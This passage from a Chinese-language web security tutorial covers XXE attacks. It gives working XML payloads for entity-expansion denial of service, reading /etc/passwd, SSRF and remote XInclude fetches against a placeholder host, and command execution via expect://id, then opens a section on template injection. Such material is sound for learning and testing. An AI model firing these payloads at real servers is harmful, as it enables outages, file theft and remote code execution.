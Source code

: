 ### 4. 攻击方式
#### 1. 拒绝服务攻击
```xml
<!DOCTYPE data [
<!ELEMENT data (#ANY)>
<!ENTITY a0 "dos" >
<!ENTITY a1 "&a0;&a0;&a0;&a0;&a0;">
<!ENTITY a2 "&a1;&a1;&a1;&a1;&a1;">
]>
<data>&a2;</data>
```
若解析过程非常缓慢，则表示测试成功，目标站点可能有拒绝服务漏洞。 具体攻击可使用更多层的迭代或递归，也可引用巨大的外部实体，以实现攻击的效果。
#### 2. 文件读取
```xml
<?xml version="1.0"?>
<!DOCTYPE data [
<!ELEMENT data (#ANY)>
<!ENTITY file SYSTEM "file:///etc/passwd">
]>
<data>&file;</data>
```
#### 3. SSRF
```xml
<?xml version="1.0"?>
<!DOCTYPE data SYSTEM "http://publicServer.com/" [
<!ELEMENT data (#ANY)>
]>
<data>4</data>
```
#### 4. RCE
```xml
<?xml version="1.0"?>
<!DOCTYPE GVI [ <!ELEMENT foo ANY >
<!ENTITY xxe SYSTEM "expect://id" >]>
<catalog>
   <core id="test101">
      <description>&xxe;</description>
   </core>
</catalog>
```
#### 5. XInclude
```xml
<?xml version='1.0'?>
<data xmlns:xi="http://www.w3.org/2001/XInclude"><xi:include href="http://publicServer.com/file.xml"></xi:include></data>
```
## 11. 模板注入

### 1. 简介
模板引擎用于使用动态数据呈现内容。此上下文数据通常由用户控制并由模板进行格式化，以生成网页、电子邮件等。模板引擎通过使用代码构造（如条件语句、循环等）处理上下文数据，允许在模板中使用强大的语言表达式，以呈现动态内容。如果攻击者能够控制要呈现的模板，则他们将能够注入可暴露上下文数据，甚至在服务器上运行任意命令的表达式。
